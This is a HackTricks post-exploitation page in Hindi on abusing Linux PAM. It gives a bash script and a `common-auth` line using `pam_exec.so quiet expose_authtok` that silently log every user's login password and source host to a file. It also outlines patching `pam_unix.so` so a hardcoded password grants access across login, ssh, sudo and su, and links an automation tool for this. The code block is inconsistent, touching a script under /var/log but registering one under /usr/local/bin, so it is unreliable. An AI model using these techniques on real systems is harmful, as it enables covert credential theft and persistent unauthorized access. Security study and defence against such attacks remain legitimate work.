 # Linux Post-Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## PAM के साथ लॉगिन पासवर्ड स्निफ़ करना

आइए एक PAM मॉड्यूल कॉन्फ़िगर करें जो प्रत्येक उपयोगकर्ता द्वारा लॉगिन करने के लिए उपयोग किए जाने वाले पासवर्ड को लॉग करता है। यदि आप नहीं जानते कि PAM क्या है, तो देखें:

{% content-ref url="pam-pluggable-authentication-modules.md" %}
[pam-pluggable-authentication-modules.md](pam-pluggable-authentication-modules.md)
{% endcontent-ref %}

**अधिक जानकारी के लिए [मूल पोस्ट](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/) देखें**। यह केवल एक सारांश है:

**तकनीक का अवलोकन:**
प्लग करने योग्य प्रमाणीकरण मॉड्यूल (PAM) यूनिक्स-आधारित सिस्टम पर प्रमाणीकरण प्रबंधन में लचीलापन प्रदान करते हैं। वे लॉगिन प्रक्रियाओं को अनुकूलित करके सुरक्षा बढ़ा सकते हैं, लेकिन यदि गलत तरीके से उपयोग किया जाए तो जोखिम भी पैदा कर सकते हैं। यह सारांश PAM का उपयोग करके लॉगिन क्रेडेंशियल कैप्चर करने की एक तकनीक को रेखांकित करता है, साथ ही शमन रणनीतियों के साथ।

**क्रेडेंशियल कैप्चर करना:**
- एक बैश स्क्रिप्ट जिसका नाम `toomanysecrets.sh` है, लॉगिन प्रयासों को लॉग करने के लिए तैयार की गई है, जो तारीख, उपयोगकर्ता नाम (`$PAM_USER`), पासवर्ड (stdin के माध्यम से), और दूरस्थ होस्ट IP (`$PAM_RHOST`) को `/var/log/toomanysecrets.log` में कैप्चर करती है।
- स्क्रिप्ट को निष्पादन योग्य बनाया गया है और PAM कॉन्फ़िगरेशन (`common-auth`) में `pam_exec.so` मॉड्यूल का उपयोग करके एकीकृत किया गया है, जिसमें चुपचाप चलाने और स्क्रिप्ट को प्रमाणीकरण टोकन उजागर करने के विकल्प हैं।
- यह दृष्टिकोण दिखाता है कि कैसे एक समझौता किया गया लिनक्स होस्ट क्रेडेंशियल्स को चुपचाप लॉग करने के लिए शोषित किया जा सकता है।
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### Backdooring PAM

**अधिक जानकारी के लिए [मूल पोस्ट](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9) देखें**। यह केवल एक सारांश है:

प्लग करने योग्य प्रमाणीकरण मॉड्यूल (PAM) एक प्रणाली है जो लिनक्स के तहत उपयोगकर्ता प्रमाणीकरण के लिए उपयोग की जाती है। यह तीन मुख्य अवधारणाओं पर काम करता है: **उपयोगकर्ता नाम**, **पासवर्ड**, और **सेवा**। प्रत्येक सेवा के लिए कॉन्फ़िगरेशन फ़ाइलें `/etc/pam.d/` निर्देशिका में स्थित हैं, जहाँ साझा पुस्तकालय प्रमाणीकरण को संभालते हैं।

**उद्देश्य**: PAM को संशोधित करना ताकि एक विशिष्ट पासवर्ड के साथ प्रमाणीकरण की अनुमति दी जा सके, वास्तविक उपयोगकर्ता पासवर्ड को बायपास करते हुए। यह विशेष रूप से `common-auth` फ़ाइल द्वारा उपयोग किए जाने वाले `pam_unix.so` साझा पुस्तकालय पर केंद्रित है, जो पासवर्ड सत्यापन के लिए लगभग सभी सेवाओं द्वारा शामिल किया जाता है।

### `pam_unix.so` को संशोधित करने के चरण:

1. **सामान्य प्रमाणीकरण फ़ाइल में प्रमाणीकरण निर्देशिका का पता लगाएँ**:
- वह पंक्ति जो उपयोगकर्ता के पासवर्ड की जांच के लिए `pam_unix.so` को कॉल करती है।
2. **स्रोत कोड को संशोधित करें**:
- `pam_unix_auth.c` स्रोत फ़ाइल में एक शर्तीय कथन जोड़ें जो पूर्वनिर्धारित पासवर्ड का उपयोग करने पर पहुँच प्रदान करता है, अन्यथा यह सामान्य प्रमाणीकरण प्रक्रिया के साथ आगे बढ़ता है।
3. **संशोधित `pam_unix.so` पुस्तकालय को उचित निर्देशिका में पुनः संकलित और प्रतिस्थापित करें**।
4. **परीक्षण**:
- विभिन्न सेवाओं (लॉगिन, ssh, sudo, su, स्क्रीनसेवर) में पूर्वनिर्धारित पासवर्ड के साथ पहुँच दी जाती है, जबकि सामान्य प्रमाणीकरण प्रक्रियाएँ अप्रभावित रहती हैं।

{% hint style="info" %}
आप इस प्रक्रिया को स्वचालित कर सकते हैं [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor) के साथ
{% endhint %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** पर हमें **फॉलो** करें** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
